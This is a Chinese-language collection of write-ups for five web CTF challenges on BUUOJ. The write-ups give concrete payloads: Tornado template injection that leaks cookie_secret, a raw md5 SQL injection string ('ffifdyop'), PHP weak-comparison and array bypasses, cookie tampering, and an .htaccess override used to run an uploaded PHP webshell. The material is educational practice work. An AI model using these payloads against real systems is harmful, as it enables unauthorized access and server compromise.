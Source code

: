 # 1.[极客大挑战 2019]BuyFlag

本题打开之后点开MENU发现PAYFLAG,然后提示需要花一亿money买flag。 
F12发现源码，需要对password变量进行绕过，弱比较传参404a，同时上交money等于100000000，提交POST请求。
回显不是学生，抓包发现Cookie:user=0关键属性,尝试改成1,发现成功绕过。
但是显示数字太长,换用科学计数法1e10,得到flag。



# 2.[护网杯 2018]easy_tornado

文件名是tornado(python的一个模板),怀疑是模板注入。进入靶机后发现三个文件flag.txt,welcome.txt,hints.txt。点进去发现提示flag在**/fllllllllllllag**中,hints.txt提示filehash计算**md5(cookie_secret+md5(filename))** 所以关键是获取cookie_secret的值。

然后修改哈希值，发现报错，/error?msg=Error,说明可以在这个地方进行模板注入。

**模板注入必须通过传输型，如{{xxx}}执行命令**

尝试传入/error?msg={{9*9}},回显ORZ,证明了这就是tornado模板注入。

在tornado模板中，存在一些可以访问的快速对象，如handler指向RequestHandler,所以handler.settings就指向RequestHandler.settings了,而后者有一些环境变量。

传入**/error?msg={{handler.settings}}** 得到了cookie_secret,然后按要求加密得到filehash

```python
import hashlib
cookie_secret = '1d58e2b1-8b1c-494d-9d27-9319730f6811'
filename = '/fllllllllllllag'
filename = hashlib.md5(filename.encode()).hexdigest()
a = cookie_secret + filename
filehash = hashlib.md5(a.encode()).hexdigest()
print(filehash)
```

```
/file?filename=/fllllllllllllag&filehash=80ab93e35c9b472775d1141542200d26
```



# 3.[BJDCTF2020]Easy MD5

第一关发现一个提交框,使用BurpSuite抓包或者直接看F12找到Hint

```sql
select * from 'admin' where password=md5($pass,true)
select * from 'admin' where password='xxx'
```

```python
import hashlib
def md5_to_ascii(input):
    md5_hash = hashlib.md5(input.encode()).hexdigest()
    ascii_string = ''.join(chr(int(md5_hash[i:i+2], 16)) for i in range(0, len(md5_hash), 2))
    return ascii_string

text = 'ffifdyop'
ascii_text = md5_to_ascii(text)
print(ascii_text)

#输出'or'6É]é!r,ùíb
```

这里有一个关于php中md5函数的绕过,md5(ffifdyop,true)布尔型判断,若传入的md5经过hex转为十六字符二进制后,可以**直接在框中输入ffifdyop**来构造如下语句:

```sql
select * from 'admin' where password=''or'6É]é!r,ùíb'
```

不仅闭合了前面的查询语句,or后面的**'6É]é!r,ùíb'**因为开头是6,被判断为true,成功绕过检查。



第二关的页面没什么提示,于是抓包用Repeater模块获取页面信息,发现一段被注释的php代码

```php
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){    # md5弱比较绕过
    // wow, glzjin wants a girl friend.
-->
```

可以传入加密后开头是0exxxx(会被md5函数认为是0^xxxx,加密后都是0的md5值)的字符串

```
http://1f527c3d-3874-409b-80c8-dfa8f1de2488.node5.buuoj.cn:81/levels91.php?a=QNKCDZO&b=s878926199a
```

也传入用来绕过强比较的数组

```
http://1f527c3d-3874-409b-80c8-dfa8f1de2488.node5.buuoj.cn:81/levels91.php?a[]=1&b[]=0
```



第三关回显一段新的php代码

```php
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}
```

强比较,用数组绕过即可,但是要注意是POST请求

```POST
param1[]=1&param2[]=0
```



# 4.[ACTF2020 新生赛]BackupFile

进入后显示一句话**Try to find out source file!**,用御剑扫描得到index.php,访问下载index.php.bak,打开后发现一段php代码

```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}

?>
```

需要用GET传入key的值,在比较中因为$key是数字,所以$str会被隐性转换为整型,即123,所以只要传入**?key=123**即可



# 5.[MRCTF2020]你传你🐎呢

本题是文件上传漏洞,先上传隐藏png格式的php代码文件,尝试直接抓包修改后缀失败,重新发包成功上传至

```
http://ff0088aa-3a93-454b-9fa6-7395bb8308a5.node5.buuoj.cn:81/upload/e02521f1c5397452c73ec9bdae3eb0e0/11.png
```

这里要用到.htaccess文件,这个是一个解析指定文件为php的文件,内容为

```
<FilesMatch "1.png">
SetHandler application/x-httpd-php
</FilesMatch>
```

抓包并将格式改为image/png,成功上传。然后用蚁剑连接,在根目录下找到flag文件
